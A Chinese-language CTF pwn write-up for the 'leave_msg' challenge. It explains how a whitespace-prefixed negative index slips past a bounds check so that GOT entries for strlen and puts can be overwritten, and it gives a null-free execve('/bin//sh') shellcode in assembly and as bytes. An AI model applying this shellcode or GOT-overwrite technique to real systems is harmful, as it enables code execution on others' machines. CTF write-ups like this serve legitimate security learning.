 
#### 72 Pwn    leave_msg

write up：

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

可以看到`Stack`是可执行的，并且还具有`RWX`权限的`segments`。

```c
    read(0, nptr, 0x10u);
    v3 = atoi(nptr);
    if ( strlen(buf) > 8 )
    {
      puts("Message too long, truncated.");
      buf[8] = 0;
    }
    if ( v3 > 0x40 || nptr[0] == '-' )
      puts("Out of bound.");
    else
      dword_804A060[v3] = (int)strdup(buf);
```

读取一个字符串，然后转换成数字，并且字符串的第一个字符不能时`-`（负号）。在输入的数字前加空白字符`\r\n\t \f\v`就可以轻松绕过。利用这个特点可以修改`got`表的函数。

先修改`strlen`函数，返回值为`0`。再修改`puts`函数，放入`shellcode`。注意`shelcode`中不能有`\x00`字符。

##### ##shellcode

```assembly
global _start
_start:
xor eax,eax
push eax
push "//sh"
push "/bin"
mov ebx,esp
push eax
mov edx,esp
push ebx
mov ecx,esp
mov al,0Bh
int 80h
```

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
